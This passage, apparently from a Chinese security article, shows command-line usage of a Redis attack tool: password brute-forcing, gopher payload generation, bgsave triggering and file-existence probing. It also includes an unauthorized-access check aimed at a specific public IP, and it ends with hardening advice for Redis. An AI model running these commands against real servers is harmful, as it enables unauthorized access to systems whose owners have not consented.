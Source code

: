 > 爆破Redis密码：  
RedisExp.exe -m brute -r 目标IP -p 目标端口 -f 密码字典  
RedisEXP.exe -m brute -r 127.0.0.1 -p 6378 -f pass.txt  
> 生成gohper：  
RedisExp.exe -m gopher -r 目标IP -p 目标端口 -f gopher模板文件  
> 执行 bgsave：  
RedisExp.exe -m bgsave -r 目标IP -p 目标端口 -w 密码  
> 判断文件（需要绝对路径）：  
RedisExp.exe -m dir -r 目标IP -p 目标端口 -w 密码 -rf c:\windows\win.ini  
  
  
redis未授权检测  
  
基本连接  
> .\RedisEXP.exe -r 123.58.224.8 -p 38798  
  
  
![1748614797_6839be8d8bfc9683653d2.png!small?1748614796936](https://mmbiz.qpic.cn/sz_mmbiz_jpg/CSyEGWNz8kt3YUvjTnSurmGHXIuIvwKWGqfk0rEdQblP7iasXrbsWMevrI717fgzEjeeakpBJGTOIDNiaNTZuuyg/640?wx_fmt=jpeg&from=appmsg "")  
  
## redis未授权访问漏洞防护建议  
> 将redis版本升级到4.x/5.05或以上；将redis的默认端口号6379修改为其他端口号并避免redis端口暴露在公网；设置密码认证（一般为空），可以免密码远程登陆redis服务；利用防火墙对访问redis服务器的流量进行检测拦截；绑定内网ip地址进行访问。  
  
  
  
  
  
  
  
  
  
